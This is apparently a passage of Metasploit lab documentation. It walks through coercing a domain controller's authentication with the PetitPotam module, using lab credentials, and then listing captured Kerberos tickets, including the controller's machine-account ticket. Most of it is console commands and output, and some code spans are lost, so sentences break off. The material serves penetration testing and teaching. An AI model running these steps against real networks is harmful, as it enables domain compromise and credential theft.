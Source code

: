  Name                    Attributes
 ----                    ----------
 distinguishedname       CN=DC,OU=Domain Controllers,DC=msflab,DC=local
 dnshostname             DC.msflab.local
 name                    DC
 operatingsystem         Windows Server 2019 Standard
 operatingsystemversion  10.0 (17763)

[*] Auxiliary module execution completed
msf6 auxiliary(gather/ldap_query) >
`

`
msf6 > use auxiliary/scanner/dcerpc/petitpotam 
msf6 auxiliary(scanner/dcerpc/petitpotam) > set LISTENER ws01.msflab.local
LISTENER => ws01.msflab.local
msf6 auxiliary(scanner/dcerpc/petitpotam) > set SMBUser aliddle
SMBUser => aliddle
msf6 auxiliary(scanner/dcerpc/petitpotam) > set SMBPass Password1!
SMBPass => Password1!
msf6 auxiliary(scanner/dcerpc/petitpotam) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(scanner/dcerpc/petitpotam) > run

[+] 192.168.159.10:445    - Server responded with ERROR_BAD_NETPATH which indicates that the attack was successful
[*] 192.168.159.10:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/dcerpc/petitpotam) >
`

`

If the module does not indicate that the attack was successful, another tool like
[`

`](https://github.com/p0dalirius/Coercer) can be used to try additional methods.

Now that the domain controller has authenticated to the target it's necessary to dump the kerberos tickets from the
compromised target. Use the `

`
msf6 post(windows/manage/kerberos_tickets) > klist
Kerberos Cache
==============
id   host            principal               sname                             issued                     status  path
--   ----            ---------               -----                             ------                     ------  ----
411  192.168.159.10  DC$@MSFLAB.LOCAL        krbtgt/MSFLAB.LOCAL@MSFLAB.LOCAL  2023-08-23 09:32:46 -0400  active  /home/smcintyre/.msf4/loot/20230823151744_default_192.168.159.10_mit.kerberos.cca_307418.bin
407  192.168.159.10  WS01$@MSFLAB.LOCAL      krbtgt/MSFLAB.LOCAL@MSFLAB.LOCAL  2023-08-23 15:14:46 -0400  active  /home/smcintyre/.msf4/loot/20230823151735_default_192.168.159.10_mit.kerberos.cca_760842.bin

msf6 post(windows/manage/kerberos_tickets) > 
`

